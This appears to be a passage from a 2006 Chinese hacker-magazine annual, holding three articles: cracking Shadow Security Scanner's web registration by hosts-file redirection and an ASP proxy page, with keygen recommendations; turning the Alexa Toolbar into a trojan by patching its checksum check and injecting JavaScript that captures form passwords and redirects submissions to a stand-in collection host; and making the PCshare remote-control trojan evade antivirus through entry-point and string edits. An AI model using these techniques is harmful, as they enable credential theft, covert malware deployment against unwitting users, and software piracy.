这个文件和上一个文件是大同小异，只不过多了一个对变量的处理而已。懂ASP的朋友一眼就能看出来，不太清楚的，向高人讨教一下吧。这个页面请求的应该是更新列表，不过不算太大，全部返回的数据也就有8-

www.hacker.com.cn
2006精华季读本 下册


10KB。我们很快就能看到结果了，如图4所示。看见了吧？这就得到了更新列表了。我猜有很多人可能马上就要去点击那个Next按钮了吧？别着急，这里有向题需要处理。先兜个圈子，给大家说说我原来的思路，以下的过程仅仅是概念讲解，大家无需跟着操作。

我仍然是采用了Sniffer抓包的方法，看到升级程序访问了\update\db\getaudits.pl文件，而且后面足足跟了有825个字符的变量！我不在文章里列出来了，免得占用空间（详见光盘：数据.txt）。这些变量虽然多，但是交给程序处理还是游刃有余的。于是乎，我写了一个对应的页面：

```
[以下代码在getaudits.pl中]
<% 
On error resume next 
Dim outformat,sURL 
outformat=Request.ServerVariables("Query_String")
'注释：Request.ServerVariables("Query_String")用于获得url中？后面的东西 
Dim Retrieval 
Response.Buffer=True 
Function GetURL(url) 
Set Retrieval =Server.CreateObject("Microsoft.XMLHTTP") 
With Retrieval 
.Open "GET", url, False, "", "" 
.Send 
GetURL = .ResponseText 
End With 
Response.BinaryWrite retrieval.responseBody '输出二进制到浏览器 
Set Retrieval = Nothing 
End Function 
sURL = "http://safety-lab.com/update/db/getaudits.pl?" & outformat 
Response.Write GetURL(sURL) 
%>
```

这个页面是用来下载更新数据的。由于这个请求的页面没有变量名称，网页后边直接加数据，我也很为难。后来上网查找资料，原来用Request.ServerVariables("Query_String")就可以直接获取？后面的东西了。从理论上讲，这个页面能完全返回升级程序需要的数据，但是理论总是有和实际脱离的地方。

SSS的升级程序为了防止网络故障而让程序长时间失去响应，设置了一个连接超时时间，大概在10秒钟左右。Safety-Lab.com是俄罗斯的网站，而且要下载的数据，动不动就要几百KB，以目前的连接速度，根本无法在10秒内完成下载（我用的可是2M的网通ADSL），这个页面还不支持所谓的即时传递数据（就是下一点，传一点），等IIS把所有的数据从Safety-Lab.com下载回来的时候，SSS的升级程序早就Timed Out了。当然，有连接俄罗斯网站速度超快的朋友，也可以用这个方法。

那我们怎么办？办法是有的。后来我发现，访问Safety-Lab上的getaudits.pl是不需要授权的。怎么样？想到了没有？在升级程序出现更新列表的时候（如图4），在host文件“127.0.0.1 www.safety-lab.com”的前面加上一个“#”（没有引号），这样Windows就会忽略这行内容了。接着，点击Next，就可以下载升级数据了。

可能有的朋友看过文章会注意到我所有页面里的转向地址都写的是：http://safety-lab.com/。大家感觉这个地址与前面有www的地址是一样的，可那时在通过DNS解析的时候，在Host文件里即使差一个字符也不行的。我们在Host文件里，设置的是http://www.safety-lab.com/解析到本地，并不等于http://safety-lab.com/也解析到本地。另外强调一点，SSS一般把升级数据下载到C：\Program Files\Common Files\Safety-lab\Download，你到SSS的安装目录是找不到的。

最后，我做对一些常见的问题做出解答，也方便大家参考。

> 问：我的.dat(或.pl,.php)为什么无法执行，或者只看到源文件？
答：没有给以上的文件在IIS中设置映射。把以上3种后缀名的映射，都设置成与.asp文件的映射一样，就可以了。如果你的IIS是6.0，请在Web服务扩展中开启ASP支持。

> 问：我其他的设置完全正确，但是升级程序提示“Download Error，HTTP Error Disconnect server”是怎么回事？
答：由于safety-Lab.com是境外网站，访问并不一定畅通。连接失败是时有发生的事情，请再试一次或者断线重连。另外，请检查防火墙是否限制了IIS进程（w3wp.exe）访问网络。

> 问：为什么我无法注册SSS？为什么我一更新就提示我的注册无效？
答：这是因为你没有修改Host文件造成的。按照上文修改Host文件，并在升级程序显示更新列表后（如图4所示）再改回来。

附：各个页面的目录图（如图5所示）。
到此为止，一个在业界内拥有相当高的评价的扫描器，就已经被完全破解了。真是很难理解，一款在反破解上下了大功夫的安全审计软件，却栽在这样的小技巧下（我记得MS的程序员管这个叫Hack）。我想，这也就是WTF说的“灵活的入侵思维”吧。


### 实用的防护

其实，按照这个思路走下去，很多带有网络注册认证功能，一度被认为是“无法破解”的软件，也可以轻易地解除使用限制。

上面我已经讲述了如何利用Web注册认证的缺陷破解软件，我们也见到了针对Web注册认证这种新兴注册手段的攻击方法。在下面的文章中，我来和大家谈谈怎样才能堵住Web注册上的缺口（以下文章中的代码实例，完全用ASP语言实现）。

从上文的事例看，判断注册信息合法性并返回一个值的Keys.php文件的页面，在设计存在一个很严重的逻辑错误。该设计者最可能的想法是这样的：

```asp
[以下代码在keys.asp中]
<!--#include file="conn.asp"-->
<%
Dim CRC,Name,err
err=true

if request("crc")<>"" and request("name")<>"" then
crc=request("crc")
name=request("name")
err=false
end if

if Not IsNumeric(crc) or Not IsNumeric(name)then
err=true
response.write "<html><body>1"
response.end
end if

if err=false then
Set rs=Server.CreateObject("ADODB.Recordset")
sql="select * from users where crc='"&crc&"' and uname = '" & name "' 我们假设 name 和 crc 的数据都存储在数据库中
rs.open sql,conn,1,1
if rs("id")="" then
response.write "<html><body>1"
response.end
else
response.write "<html><body>0"
response.end
end if
end if
%>
```

一切看起来似乎很完美了吧？我所实现的其实可能还不如人家，不过你还是可以看到过滤SQL Injection攻击的语句。但是，作为判断标示符返回的两个结果，0和1就是非常不恰当的选择了。一般有经验的攻击者，在得到错误时返回的"1"后，很自然地就会联想到正确的时候会返回"1"，这样，这道网络认证的保护就是形同虚设了。

最好的办法就是：首先，必须修改你的程序，不要让它仅仅靠判断返回的是"0"还是"1"来判断用户是否合法。你可以给程序添加一个模块，把Web验证服务器的返回信息处理一下，如果能和用户提交的信息形成某种特定的关系，就判断为合法用户，反之则为非法。

其次，你的Web验证服务器端的页面，也必须做更改。你的Web验证服务器，可以按照以下步骤处理用户提交的信息。

- 1. 把用户提交的信息放到数据库中查询。
- 2. 如果查询不到相关的数据，则直接返回一个失败代码（如"1"）。
- 3. 如果查询成功，则把用户提交的数据做一个处理，并返回给客户端。
- 4. 为了防止用户滥用正版注册号，每个注册号应设定一个注册次数限制（如10次）。

最后，你需要给你的软件加以强大的反破解保护，让一般的Cracker根本对你的软件无从下手。否则，就算你的Web注册认证如何严密，都毫无意义了。因为，Cracker会直接通过修改程序，跳过你的Web注册认证。

另外，升级也是一个需要保护的地方。你可以把上边验证用户的代码，添加到显示更新列表的程序里，这样既不会占用你太多的资源，又可以阻止非授权的用户获取更新列表。客户的升级程序，在获得升级列表之前，也向验证服务器递交一下用户的身份信息。

其实，按照我上面所述的方法来看，实现并不十分复杂。这里面也没有太深奥的技术可言。不过，就是这一点点的小技巧，也可以为难住一大批想要吃白饭的人呢（我可不是指研究破解的同行）。

行了，文章到这里也就结束了。这篇文章算是我给大家带来的一点礼物吧，希望大家都能找到趁手的黑兵器！ HD

### 对《打破SSS的技术封锁》一文的勘误和补充


文/ 彭硕

我写完《打破SSS的技术封锁》一文后，再次对文章的内容进行了检查，发现有一些细节有笔误，特此指出并给予纠正。

第一处错误在本书177页左下角，有一段代码是这么写的：

```php
[以下代码在Keys.php中]
<%
Dim crc,name,founder '定义几个变量
founderr=true '为了防止程序出错，把控制错误的变量设为true
```

```asp
if request("crc")<>"" and request("name")<>"" then
  founderr=false
end if
```

代码第二行中的founder应为founderr，是found和error的合成词，表示发现错误之意，原文处缺少了一个字母。

第二处错误在180页右上方，代码下面的那段，从上数第5、6行处，原文如下：

> ……很自然地就会联想到正确的时候会返回“1”……

该句应改为“很自然地就会联想到正确的时候会返回‘0’。”
以上为文章存在的两处笔误，特此纠正。
为了补偿这些错误给读者带来的不便，我特意花了一点时间，把原文中所叙述的繁琐的升级过程予以简化，以方便大家的使用。
经过我的查找，发现SSS在注册表内定义了升级服务器的地址（注意：是升级服务器，不是验证服务器），具体位置在：

```
[注册表文件: sss.reg]
[HKEY_LOCAL_MACHINE\Software\Safety-lab\ShadowSecurityScanner]
DBURL(字符串值)
UpdateDBURL(字符串值)
UpdateURL(字符串值)
```

大家只须把这3个字符串值的数据中的“.www.”
（不包括引号）去掉就可以了。具体的原理在原文中已经叙述，不再复述。最后，再对一些操作中产生的实际问题做下说明。
SSS 7.30的Update程序设计上有一点缺陷，表现为能显示更新列表，也可以下载数据，但是再次升级时，还会出现相同的更新列表，下载相同的数据。该问题已经在SSS 7.34版本中得到了解决，请大家下载SSS 7.34或更高的版本后，再更新产品，推荐7.43版。
另外，最近发现Safety-Lab.com的连接稳定性有所降低，并且SSS的升级程序也有了一个镜像更新站点，所以我不能保证原文所述的方法在新版Update的环境下可以成功升级，所以推荐大家按照本文的叙述进行修改。另外，SSS的Keygen也推出了针对7.43的版本，虽然6.99的Keygen也可以使用，但是推荐大家使用7.43版的Keygen。
好了，文章到此为止。笔者再次对原文中出现的错误向广大读者表示歉意！

蝴蝶：Alexa被称为世界上最权威的互联网排名站点。由于国内目前尚没有一个权威、客观的互联网排名机构，国内不少网站都乐于引用本站Alexa上的排名进行广告招商或应用于业务推广。最近“一搜”刚推出几个月就因ALEXA全球排名30位左右而被媒体大量报导；而百度收购网址之家Hao123，在里面提到的“Hao123.com的流量在alexa.com的排名中居全球25名左右”更使人们对Alexa频频接触。而Alexa发布的著名Alexa Toolbar(Alexa工具条)就是本文的主角，作者将向大家介绍如何将它改造成木马！
适合读者：黑器迷、入侵爱好者、网民、脚本程序员
前置知识：无

## Alexa工具条，被窥视的隐私数据完全解决方案

文/图 小非

Alexa在1997年7月开发了一款软件，也就是现在著名的Alexa Toolbar（Alexa工具条），这是一个嵌入到微软IE中的工具，在用户访问每个Web页面时都会向它发回一串代码，将该次浏览的相关信息告诉Alexa。而用户也会在该工具条上看到其浏览的网站在全球所有网站中的排名信息。Alexa工具条是一种类似于Google工具条的IE插件（如图1所示），可以去下面的URL下载http://download.alexa.com/index.cgi。


#### 从Alexa排名“作弊”说开去

目前，全球的Alexa工具条“装机量”已经超过上千万。光在我国不到一亿的网民中就已经有超过130万的用户安装了Alexa工具条。Alexa能基于遍及全球电脑用户桌面的工具条返回的信息，对全球网民的浏览进行监测。这么大一艘航空母舰，它的安全状况又如何呢？
每当用户以安装有Alexa工具条的IE打开新页面时，Alexa的一台服务器（data.alexa.com）都会收到加密数据包，这个数据包中的核心信息是十几个参数，包括当前网页地址、页面打开时间、用户端显示分辨率、Alexa工具条版本号等。其中有一个重要的隐含参数，Alexa为每个已安装工具条自动生成的ID号码，该号码是全球惟一的。ID的作用是通过它来对每个反馈数据包的发出者进行惟一标识，这是解决重复计算问题和防止同一用户多次刷新作弊的一个重要手段。但是，我们可以通过破解植入IE浏览器的Alexa工具条，或者破解Alexa用来惟一标识用户身份的ID号码生成算法，模拟出多个ID，向Alexa服务器发送假信息——这种方法虽然对于我们广大黑迷朋友来说并没有多大的实际意义，但它给那些不知名网站提高自己排名提供了一个可乘之机！
我们关心的是如何将Alexa Toolbar（Alexa工具条）变成木马。

#### Alexa 工具条的运作原理

其实Alexa工具条是一种基于BHO和Toolbar Bands技术的IE插件。它以DLL文件的形式存在于系统中，是一种COM组件，IE会在运行时将其加载到自身进程中去，因此，一般情况下防火墙是无法禁止该软件访问网络的，这就为它的木马角色提供了先天的便利。而且它比本机Sniffer软件收集密码的优势是 无论是HTTP还是HTTPS的网站，不管通信通道是否加密，只要是IE页面的表单都能收集到。


系统在安装了Alexa工具条后，会在系统目录下生成AlxTB1.dll和AlxRes.dll两个DLL文件，如图2所示。

有些情况下并不是AlxTB1.dll，而是AlxTB2.dll。那是因为Alexa工具条会自动上网更新。

Alexa工具条的主要二进制代码存在于AlxTB1.dll文件中，这个文件同时也被注册成多个COM组件，它完成了BHO和Toolbar Bands的COM接口，并将IE的WebBrowser控件封装为一个COM组件供AlxRes.dll调用。AlxRes.dll文件仅包含少量的二进制代码，大量的代码是HTML L和JavaScript代码，它们以资源的形式存在于AlxRes.dll文件中，可以通过res://AlxRes.dll/CHTML/about.html这样的URL来访问这些资源。

也许有人会感觉到奇怪 又不是做网站，为什么软件的代码会是JavaScript写的？其实这就是Alexa工具条欠缺的地方。Alexa工具条的主界面是由HTML+JavaScript实现的，这些JavaScript代码通过调用AlxTb1.dll实现的COM接口来实现软件的全部功能。这样做不仅导致软件的效率低下，而且产生大量的资源泄漏——也为我们的修改Alexa工具条的功能提供了“方便”，只要一个PE资源修改工具我们就可以对Alexa工具条的代码进行修改了。

#### 破解 Alexa 工具条

当然，Alexa也并不是像大家想的那样简单，它绝对不会简单到让自己的代码被别人用资源修改工具随便修改。为了防止AlxRes.dll中的资源被随意修改，它采取了计算文件校验和的保护方法，要是发现文件被修改，就会拒绝加载。我们在修改代码前，必须破解这种保护机制。

AlxTB1.dll导出一个名叫ChecksumResources的函数，这个函数就是用来计算文件校验和的。用c32asm反汇编AlxRes.dll文件，查看字符串调用列表，找到“ChecksumResources”字符串，如图3所示。

跳转到调用该字符串的代码，于100017C0处，如图4所示。

往下翻几行，在100017F6处找到一句跳转，如图5所示。

采用 爆破 方式，用NOP指令覆盖JNZ指令即可。通俗点讲就是将AlxRes.dll文件偏移‘0x17F6’处的两个字节“75 11”改成“90 90”，如图6所示。也可以使用WinHex之类的16进制编辑软件来修改。


详细代码如下：

```
:.100017C0: 68 9C700010 PUSH 1000709C ;:BYJMP JmpBy:
100017A4, 100017B1, \->: ChecksumResources
:.100017C5: 57 PUSH EDI
:.100017C6: FF15 1C500010 CALL [1000501C] >>>:
KERNEL32.DLL:GetProcAddress
:.100017CC: 85C0 TEST EAX, EAX
:.100017CE: 74 0E JE SHORT 100017DE :\JMPDOWN
:.100017D0: 8D4D DC LEA ECX, [EBP-24]
:.100017D3: 51 PUSH ECX
:.100017D4: FF35 44740010 PUSH DWORD PTR [10007444]
:.100017DA: FFD0 CALL EAX
:.100017DC:: 59 POP ECX
:.100017DD:: 59 POP ECX
:.100017DE:: 57 PUSH EDI ;:BYJMP JmpBy:100017CE,
:.100017DF: FF15 18500010 CALL [10005018] >>>: KERNEL32.
DLL:FreeLibrary
:.100017E5: 8D45 B8 LEA EAX, [EBP-48]
:.100017E8: 50 PUSH EAX
:.100017E9: 8D45 DC LEA EAX, [EBP-24]
:.100017EC: 50 PUSH EAX
:.100017ED: E8 AE060000 CALL 10001EA0 :\JMPDOWN
:.100017F2: 59 POP ECX
:.100017F3: 85C0 TEST EAX, EAX
:.100017F5: 59 POP ECX
:.100017F6: 75 11 JNZ SHORT 10001809 :\JMPDOWN ;就
是修改这里
:.100017F8: 8D45 B8 LEA EAX, [EBP-48]
:.100017FB: 50 PUSH EAX
:.100017FC: E8 9D010000 CALL 1000199E
:.10001801: 59 POP ECX
:.10001802: 85C0 TEST EAX, EAX
:.10001804: 59 POP ECX
:.10001805: 75 02 JNZ SHORT 10001809
```

现在我们可以毫无顾忌地修改AlxRes.dll中的资源了。


#### 修改 Alexa 工具条的代码

熟悉IE编程的人都知道，DWebBrowserEvents2接口是用来接收WebBrowser事件通知的，我们可以在AlxRes.dll的Javascript代码中找到这些函数。在`res://AlxRes.dll/SCRIPT/EVT.CLASS.JS`的代码中，有一系列的JavaScript函数，对应于DWebBrowserEvents2接口的成员，如`DocumentComplete->BP_onDocumentComplete`，`NavigateComplete2->BP_onNavigateComplete`，`BeforeNavigate2->BP_onBeforeNavigate`。按照DWebBrowserEvents2接口，我们可以在BeforeNavigate2中截获PostData，但是在AlxRes.dll的代码中，这个接口没有完全实现。在DWebBrowserEvents2接口中的原型是

```
void BeforeNavigate2 (IDispatch *pDisp,
VARIANT *&url,
VARIANT *&Flags,
VARIANT *&TargetFrameName,
VARIANT *&PostData,
VARIANT *&Headers,
VARIANT_BOOL *&Cancel
);
```

这其中的PostData包含了Post数据，而BP_onBeforeNavigate的函数原型如下

```
function BP_onBeforeNavigate (oParentWebBrowser2, oWebBrowser2, sURL, bPostData, sHeaders);
```

其中bPostData只是个BOOL类型的变量。
一般来说，人们在IE中输入的用户名密码都是通过表单提交到服务器的，如果能在表单提交前截获表单的内容就可以实现窃取密码了。在JavaScript中，只要处理表单的"OnSubmit"事件，就可以先于提交而处理表单的内容，而AlxRes.dll的功能也是由JavaScript实现的，所以我们就无需面对繁琐的COM接口，而直接使用JavaScript了。

#### 截获网页表单的内容

上面讲的东西有些类似于跨站脚本执行漏洞。先来看看`res://AlxRes.dll/SCRIPT/EVT.CLASS.JS`中的"BP_onDocumentComplete"函数

```
function BP_onDocumentComplete
(oParentWebBrowser2, oWebBrowser2, sURL);
```

该函数在IE的当前浏览页面被加载完成时被调用，其中的oWebBrowser2参数可以当作当前IE正在浏览的页面的Windows对象。我们可以添加如下代码

```
function BP_onDocumentComplete
(oParentWebBrowser2, oWebBrowser2, sURL) {
......
try {
for (i=0;i<oWebBrowser2.document.forms.length;i++)
{
oWebBrowser2.document.forms.onsubmit=test;
}
}catch (e){}
return false;
}
```

这段代码的作用就是枚举当前页面中所有的表单对象，并为这些表单定义OnSubmit事件，接下来就是完成test函数了：

```
function test ()
{
try{
window.alert ("I can get the value!");
for (i=0;i<this.length;i++)
{
if(this.elements.name!="")
{
window.alert(this.elements.name+":"+this.elements.value);
//do some thing
}
}
}catch (e){}
return true;
}
```

不过用这种方法存在一点弊端：当表单是通过JavaScript语句Submit()提交时，不会产生"OnSubmit"事件，上面的代码也就无法纪录下表单的内容了。我们还可以采用更高级的方法——改变表单提交地址的方法来解决这个问题：

```
function BP_onDocumentComplete
(oParentWebBrowser2, oWebBrowser2, sURL) {
......
try{
for (i=0;i<oWebBrowser2.document.forms.length;i++)
{
oWebBrowser2.document.forms.
innerHTML=oWebBrowser2.document.forms.innerHTML+"<input name=OriginalAction type=hidden value="+oWebBrowser2.document.forms.action+">";
oWebBrowser2.document.forms.action="http://www.faketarget.com/gather.asp";
}
}catch (e){}
return false;
}
```

#### 散布和植入木马

以上代码均是用PE资源软件修改AlxRes.dll文件实现的，所以只要用新的AlxRes.dll文件将原来系统的AlxRes.dll替换掉就可以了。Alexa工具条在加载的时候会优先在"C:\Program Files\Internet Explorer"和"C:\Documents and Settings\[username]\桌面"这两个路径下搜索AlxRes.dll，所以也可以把修改过的AlxRes.dll放到这两个路径下，这样就不用覆盖源文件了。至于怎么安装，这里我们可以利用一些IE漏洞去Exploit。

安装了Alexa工具条的IE的"User-Agent"中会加入"Alexa Toolbar"，如图7所示的标记，所以很容易区分目标的IE是否已经安装了Alexa工具条


User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; Alexa Toolbar)

也可以修改Alexa的安装文件，或者以Alexa补丁的名义来发布。

#### 收集密码

我们可以用FileSystemObject控件来将表单内容纪录到文件，或者直接作为参数发送到某个Web服务器，由Web服务器收集纪录下来。为了在客户端过滤一些不包含密码的表单，我们可以在AlxRes.dll的代码中对收集的表单数据进行一些检查：

```
function test ()
{
    var IsPwdForm=false;
    var FormStr;
    try{
    for (i=0;i<this.length;i++)
    {
    if (this.elements.name!="")
    {
    if (this.elements.type=="password")
    IsPwdForm=true;
    FormStr=FormStr+this.elements.name+"="+this.elements.
value+"&";
}
if (IsPwdForm)
{
    // 表单包含密码文本，进行收集
}
}catch (e){
return true;
}
```

怎么样？是不是很害怕！没有想到连Alexa也会有这样的安全隐患吧！以后用它可要小心哦！

适合读者: 程序员,木马爱好者
前置知识: 基本汇编阅读能力

### 制作万能免杀木马

文 / 图 xgym

躲过杀毒软件，让每个菜鸟几分钟内拥有自己的免杀木马不再是梦。又是特征码修改吗？（国外的杀毒软件很NB，一个一个试，累死我等无知之辈且木马就不能出口到国外喽？我们的要求是打倒99%的杀毒软件，包括已知的和未知的。）加壳吗？（用过卡巴斯基的虫虫们是尝过“司机”大叔的厉害的哦，找了80%的加壳软件竟然一点也没用！）。废话少说，开工！正所谓知己知彼，百战不殆，我们要干掉“捉虫机”（杀毒软件）就要了解它们的原理！苦苦寻觅，终于找到它们的七经八脉！下面我就简要的说一说它们的五脏六腑！

当今杀毒软件的病毒检测技术主要有以下五种：特征值检测技术，校验和检测技术，行为检测技术，启发式扫描技术，虚拟机技术。

特征值检测技术（几乎每个杀毒软件都直接或间接采用的一种），计算机病毒的特征值是一种病毒有别与另一种病毒的字符串,有时我们称之为特征串。从病毒代码的任何地方开始取出连续的、不大于64字节且不含空格(ASCII值为32)的字符串都可以作为计算机病毒的特征串。我们可以通过计算，从理论上讲，简单地从病毒头部取出连续的64字节,则可以判断的病毒数可达2的512次方种。为了提高检查的效率，特征串一般不会超过35字节。

校验和检测技术（本技术我认为一般的杀毒软件不会采用,因为误报率很高,如果他没来事来个“狼来了”，恐怕只会吓坏使用者），在文件使用/系统启动过程中,检查文件的内容的校验和与原来保存的校验和是否一致，因而可以发现文件/引导区是否感染了病毒,这种方法叫“校验和”检测技术。这种方法既能发现已知病毒,也能发现未知病毒,但是，它不能识别病毒的种类，不能报出病毒的名称。由于病毒感染并非是文件内容改变的唯一原因,文件内容的改变有可能是正常程序所引起的,所以校验和检测技术常常误报警,而且此种方法还会影响文件的运行速率,校验和技术不能检测新的文件,如从网络(E-mail/FTP/Web)传输来的文件,磁盘和光盘拷入的文件,备份文件和压缩文件等。

行为检测技术(本技术也经常使用,但杀毒软件通常会设置一些条件,比如当程序超过3种不正常的行为，即认定是病毒)，一般来说，反病毒技术包括病毒的预防，检测和清除。如何发现计算机感染病毒就成了反病毒的重中之重,这就要求有先进，有效的病毒检测技术。病毒无论伪装的多么巧妙，它总是存在着一些和正常程序不同的行为，例如,病毒要对可执行文件进行写操作,写入磁盘引导区,病毒与宿主程序的切换,病毒隐藏在正常文件中在启动时先运行病毒，而后执行宿主程序,在两者切换时有许多特征的行为,其代码比较有规律,Windows PE病毒通常会修改代码的入口点,自己重定位,安装程序动态修改可执行程序,加密程序对被加密程序的写入行为,程序自己修改自己等！

启发式扫描技术（江民公司就是本技术的采用者），深入进行过反病毒研究的人都知道，任何一个专门从事反病毒研究的技术人员只要使用任意的调试工具稍加分析就可以判定某程度或文件是否感染了病毒,这个过程常常只需阅读最初的几十条或十几条,甚至几条反汇编指令就足以得出结论。如果能让程序模拟并自动实现这个判断过程，岂不美哉！病毒和正常程序的区划可以在许多方面,比较常见的如一个正常应用程序在最初的指令是检查命令输入有无参数项,清屏和保存原来屏幕显示等,而病毒程序则99%不会这样做,它通常最初的指令是远离跳转,搬移代码,直接写盘操作,解码指令,或先搜索某路径的可执行程序等相关的操作指令序列。对于这些明显的不同之处,一个熟练的程序员在调试状态下只需一瞥便可一目了然。启发式扫描技术实际上就是把这种经验和知识移植到软件的一个体现。

虚拟机技术(这可能就是我们敬佩的“卡巴司机”大叔所采用的,技术先进哦! 正所谓好多虫虫说卡巴的穿壳能力是任何杀毒软件所无法比拟的,其实并不是脱壳技术高,是虚拟在做鬼哦! ),多态病毒每次感染都改变病毒的密钥,这类病毒使一般的特征值检测方法失效。

大家从这5项的描术中感悟到没有? 对! 现在最先进的杀毒软件会将虚拟机和特征值结合起来(比如卡巴2005版),甚至把5项全结合起来(比如卡巴2006版,无论你用非常隐蔽的ActiveX启动木马,还是用鸽子及或PCshare的服务启动都难逃它的火眼金睛,不过关于怎样对付它不是这篇文章的范围,以后会详细讲到)。

这样是不是就无懈可击了呢,其实我们还会发现,无论是再虚拟什么机的,它总归是检测病毒还原之后的代码! 而且它们不可能对病毒的所有代码检测(效率极低哦)! 这样来说,对付他们就轻而易举了。我们只需要修改病毒从代码段开始的35~40个字节就OK了(不过诺顿这类软件定义病毒特征值不是在代码段而是在头文件里,我们照样修改头文件的35~40个字节,在头文件里,PE文件基本是类似的,它一般只能以字符串作为病毒的特征值,我们把大小写换一下,一般就OK啦)。

#### 举例

下面我就以PCshare为例为大家打造“万能”免杀的专用木马! 关于PCshare,如图1所示。

我只想用4个字来评价——短小精悍! (写这篇文章之前可能很多人都用灰鸽子吧! 鸽子很耗内存,偶偶用,鸽子的用户用石头砸我喽,哈哈)。

下面会给大家带来“不用建站专家和肉鸡映射的方法实现局域网控制局域网,其实用的是变相的肉鸡。


#### 免杀

我比较钟爱PCshare2005vip0424版,尽管有更高的版本,可是他们都去掉了键盘记录功能,不爽,下面我就以PCshare2005vip0424为例。

修改目标 PcClient.dll,PcInit.exe,PcCorrt.dll(因为这3个文件是要在肉鸡里运行的,尽管PcCorrt.dll在种植时并不存在,可我们要做到尽善尽美!)

修改工具:ollydbg及dll插件,peditor1.7,Hex Worksshop。

首先我们来修改PcInit.exe(关于exe文件是我们最衰爱的,因为他最容易逃出N多的杀毒软件,而且毫不夸张的说,仅仅需要修改几句代码甚至一句代码)。

Let us go! 我们用ollydbg。

打开PcInit.exe来到程序的入口点,如图2 所示。


下面这两行代码一般的exe文件是一样的(我们修改的重头戏就是它们)。

```
004029DF 55          PUSH EBP
004029E0 8BEC        MOV EBP,ESP
```

是否存在并不影响exe文件的正常运行,因此我们只需把程序的入口点修改到第三行(在本例中即001029E2,peditor1.7很轻易的就可以做到)。这样一来就可以“通杀”杀毒软件,因为我们知道,这样我们虽然仅仅改了3个字节,可是有很大一部分的特征串都与前两句是有关联的,这样来说,我们其实等于修改了很多的字节。这样做杀毒公司明天就会注意到!不用担心,我们要做的就是让每个人都有自己修改方法。比如第一,我们可以把MOV  EBP,ESP分为两句改为PUSH EBP和POP EBP再把入口点修改到001029E1就是了;第二,我们可以把入口点直接定到第二行即001029E0;第三,我们可以把前两行全用NOP填充再把入口点修为001029E0或001029E1;第四,我们终极修改就是把前两行变为自己喜欢的垃圾代码,比如XOR EAX,EAX;ADD EAX,2;ADD EAX,-2;PUSH EBP;POP EBP等!总之只要不影响软件一下的寄存器就OK了!

“今天我们就把前两行都改为PUSH EBP。如图3所示。

选中001029E0和001029E1两行复制到可执行文件并保存。如图4所示。

```
004029DF 55          PUSH EBP
004029E0 55          PUSH EBP
004029E1 55          PUSH EBP
```


接着我们用peditor1.7载入PcInit.exe!我们可以看到Entry Point为000029DF。如图5所示。

我们把入口点修改为001029E1就可以了。如图6所示。


同时点


## HACKER'S TOOLS

》栏目编辑）蝴蝶 butterfly@hacker.com.cn

击apply changes。如图7所示。

到此Pclnit.exe已经修改完毕，我们可以用卡巴2005或2006，瑞星2005，江民2005，毒霸2005，他们全升级为最新的病毒库，看一看，查不到吧！（在这里我们有个小提示，以后我们不再赘述！卡巴并没把PCshare2005vip0424的版本列为病毒，我们为了测试“万能”准确性，我们测试的是PCshare2005vip0514版本，因为PCshare2005vip0514是卡巴的病毒对象。还有就是关于诺顿我不想测试，因为用过诺顿的人可能都知道，诺顿定义病毒特征值99%是在头文件（而且都为字符串啊！）而不在代码段，所以我们的这种方法就不行啦，但对付诺顿这样的杀毒软件太简单了，我们用过WinUpackC或北斗星等压缩软件的人可能都知道，一般病毒或木马让他们一压缩诺顿等杀毒软件就查不出来了！因为WinUpackC或北斗星等压缩软件会把病毒或木马的头文件改的面目全非！当然我们自己也可以自己改！我们只需要把大小写换一下就好了，如果真不行，还是用压缩软件来对付，当然这里的压缩软件不是都可以的，比如UPX，ASPACK等都不行的！）


图6


图7

其次我们来修改PcClient.dll！关于dll文件我们总感觉不是很爽！毕竟它在加载的时候是必须很有规则的，这样我们在免杀上就会困难重重！也许我们过了卡巴（包括内存），但又逃不出瑞星内存的查杀！或许刚好相反！在这里我们其实还可以用“万能”免杀的方法，但它用的时候有个条件，就是当一个exe文件中含有多数的DLL文件而这个dll文件并不是最主要的加载对象时，什么都完全可以。但如果我们要修改最主要的dll文件该怎样办？其实我们还是这个思想，只是我们可以不它入口点的位置到本一小段代码统统上移或下移几行就万事OK了！不过这样就显的很麻烦啊！所以关于dll“万能”免杀的例子就不举了。我们的PcClient.dll其实还有一些特殊性，那就是它的入口点到本身的代码是很紧凑的而且中间还有很多的跳转，这样就增加了修改的难度！我们就特殊情况特殊对待！一定要看清楚了我们下面的操作！ok!go!

我们还是先用ollydbg载入PcClient.dll，可以看到以下的代码！如图8所示。


图8

我们“万能”免杀的思想就是要修改代码段前35～40（如入口点10002683到100026A2有32个字节，应该可以了吧（如果不行，我们还可以再加）：我们该怎样修改又不影响代码本身即程序的正常运行呢？10002683和10002684这两句就别改了，因为他们肯定不是病毒码我们就修改从10002684到100026A2这一段。其实修改也很简单，就是让程序从10002684开始让其跳转到dead区域也就是零区域，我们已经找到了看图8的最后一行10002756即是程序的零区域。我们把10002686这行修改为jmp 10002756，然后在10002756处把10002686到100026A2这段代码给补充上，最后再加一个跳转指令就OK了（即jmp 100026A4）。再我们修改的中间，我们把10002684到100026A2原有的代码给NOP掉！如图9所示。


图9

在10002756处我们完全可以加上我们自己的垃圾代码，这样我们每个虫虫就可以自己的专用木马啦，例如，我的垃圾代码如图10所示。


图10

如果你是一个不想费事的人，可以直接套用我的垃圾代码，如图11所示。修改一下就可以了！

这样以来我们就从1000275B开始把10002684到100026A2原有的代码给添加上就好了！中间我只把可能遇到的问题罗列出来，第一，遇到有形如SHORT PCCLIENT.之类的，我们把SHORT PCCLIENT.去掉方能继续操作，呵呵！其实很简单如图12所示。


图11


图12

第二，当我们遇到如图13所示之类的我们点击是，就可以大胆的保存文件了！


图13

好了，我们还是要用peditor1.7载入PcClient.dll，把它的入口点修改为10002756，如图14。


图14

关于PcCorr.dll的修改和PcClient.dll基本上是一样的，我就不再罗嗦了！终于完了，我们的免杀木马从此诞生了！我们现在可以把您所有的杀毒软件拿出来练练啦！

到这里我们可以告一段落了，但我在后期测试时发现一个问题：我们的木马居然没能通过瑞星内存！晕，毕竟PCshare的影响力不小啊！不过不要怕，其实内存杀法是很有限性的（也许目前只能以在程序中的字符作

www.hacker.com.cn

2006精华奉献本 下册

186


为特征码啦)。我们完全可以像对付诺顿一样来对付瑞星内存(大小写变换)。通过实验我们知道只需要把PcClient.dll文件偏移量0000406C处 http变为HTTP就可以了,然后保存!如图15所示。


到现在,我们可以运行一下生成的服务器端,可以过瑞星内存了,万事OK啦!

### 局域网控制局域网

下面我们来看看PCshare的跨局域网功能!

